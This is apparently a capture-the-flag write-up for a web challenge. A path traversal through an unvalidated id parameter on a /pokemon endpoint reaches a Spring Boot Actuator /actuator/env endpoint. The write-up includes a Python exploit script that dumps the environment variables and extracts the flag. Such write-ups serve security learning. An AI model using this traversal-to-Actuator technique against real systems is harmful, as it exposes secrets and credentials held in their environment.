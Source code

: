 # Description:
Welcome to my card shop!

Author: vicevirus

# Flag
`UMCS{spr1ng_b00t_m4st3rr4c3_786e1ad1}`


# Analysis
Reading through the source code, I noticed that the /pokemon endpoint in index.js forwards the id parameter directly to the backend without any validation

![image](https://github.com/user-attachments/assets/231a5e48-ce73-41d8-9828-668711472830)

This lack of validation allows a path traversal attack by setting id to something like ../actuator/env, which the backend interprets as a request to http://localhost:8080/actuator/env. The /actuator/env endpoint exposes all environment variables, potentially including sensitive data like a flag. In a properly secured application, access to Actuator endpoints would be restricted, but here, the path traversal bypasses any such protections. So now through the pokemon id parameter we can get path traversal bypass to access the actuator/env and get the flag information.

# Solution
To solve we can use this exploit script:
```
import requests
import json

# Target application URL
BASE_URL = "http://116.203.176.73:53870"

# Exploit path traversal to access /actuator/env
print("[*] Attempting to retrieve environment properties via path traversal")
response = requests.get(f"{BASE_URL}/pokemon?id=../actuator/env")

if response.status_code == 200:
    print("[+] Successfully accessed /actuator/env")
    try:
        env_data = response.json()
        # Search for the FLAG environment variable
        flag = None
        for prop in env_data.get("propertySources", []):
            properties = prop.get("properties", {})
            if "FLAG" in properties:
                flag = properties["FLAG"]["value"]
                break
        
        if flag:
            print(f"[+] Flag found: {flag}")
        else:
            print("[-] FLAG not found in environment properties")
            print(f"Response: {response.text[:200]}...")
    except json.JSONDecodeError:
        print("[-] Failed to parse response as JSON")
        print(f"Response: {response.text[:200]}...")
else:
    print(f"[-] Failed to access /actuator/env: {response.status_code}")
    print(f"Response: {response.text[:200]}...")
```

Running the script we can see we successfully acquired the flag:
![image](https://github.com/user-attachments/assets/4e43b89c-31e1-42d5-bf8a-6a56a2626601)
